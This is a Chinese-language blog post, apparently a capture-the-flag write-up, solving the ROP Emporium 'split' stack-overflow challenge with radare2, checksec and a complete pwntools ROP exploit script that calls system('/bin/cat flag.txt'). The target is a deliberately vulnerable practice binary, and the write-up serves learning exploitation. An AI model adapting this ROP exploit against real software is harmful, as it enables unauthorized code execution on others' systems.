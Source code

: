```yaml
---

layout: post

title: 'rop练习--split'

date: '2017-09-28'

header-img: "img/home-bg.jpg"

tags:
     - pwn rop  
author: 'De4dCr0w'

---
```


这里只是一道简单的栈溢出问题，但是因为设置NX，所以要通过rop来执行shellcode。
参考链接：https://medium.com/@iseethieves/intro-to-rop-rop-emporium-split-9b2ec6d4db08

### 前期信息搜集

这篇文章里前期用到了radare2这个工具来查看程序信息，之前没用过，学习一波。
用rabin2 -I 来查看程序的架构等信息，其实用file就可以。

![](https://i.imgur.com/1ABdVNa.png)

用rabin2 -izz 来查找信息，用strings也是可以的。

![](https://i.imgur.com/BUS0aHM.png)

然后用checksec查看一下防护措施：

![](https://i.imgur.com/EcTxHlj.png)

### 查看反汇编

> main函数：

![](https://i.imgur.com/GX8ukps.png)

> pwnme函数：

![](https://i.imgur.com/7fSyZ5f.png)

很明显s数组是0x20的大小，而后面的fgets却接受了96大小的数据。

> usefulFunction函数：

![](https://i.imgur.com/I2ntNJn.png)

竟然还有这种函数，好吧，我是看腾讯玄武每日推送打开这篇文章的。。。

现在就看看怎么构造rop了？

X64 下函数参数传递的顺序为：RDI，RSI，RDX，R10，R8，R9，所以我们把system里的参数变成”/bin/cat flag.txt“就行了，即这个参数传入rdi寄存器中。用ropper搜索 ”pop rdi; ret;“，pop rdi；就是将栈顶的数据弹给rdi，然后ret返回执行栈中的下一条指令，我们填充的system的地址，这样我们就实现攻击了。

![](https://i.imgur.com/Tca3YFD.png)

rop的步骤：

* 利用fgets()来填充buffer，将返回地址覆盖为pwnme的地址
* 建立rop链把'/bin/cat flag.txt'传入RDI寄存器
* 调用system()


### exp.py

	# coding: utf-8
	from pwn import *
	context.log_level = 'debug'
	elf = context.binary = ELF('split')
	system_addr = 0x400810
	cat_addr = 0x601060
	pop_rdi_ret = 0x400883
	fake_ret = 0x42424242
	p = process(elf.path)
	p.sendline(cyclic(128))#产生128个随机字符
	p.wait()
	core = p.corefile#获取崩溃文件，根据崩溃文件来得到rsp的地址
	stack = core.rsp
	info("stack: %#x",stack)
	pattern = core.read(stack,4)#读取rsp保存的内容，即随机字符
	offset = cyclic_find(pattern)#根据随机字符找偏移，这里其实简单一算：0x20+8（rbp）=0x28=40个偏移
	info("pattern: %r", pattern)
	info("offset: %d",offset)
	rop_chain = p64(pop_rdi_ret)
	rop_chain += p64(cat_addr)
	rop_chain += p64(system_addr)
	rop_chain += p64(fake_ret)
	padding = cyclic(offset)
	payload = padding + rop_chain
	p = process(elf.path)
	p.sendline(payload)
	p.interactive()
	

运行结果图：

![](https://i.imgur.com/UHIz5FG.png)

### 结论

这篇文章讲的这道还是很简单的，了解了radare2这个工具，下面这个网站上有很多rop的题可以练习，然后之前还看到一个srop的东西，抽空把这个坑填上。

split下载地址：https://ropemporium.com/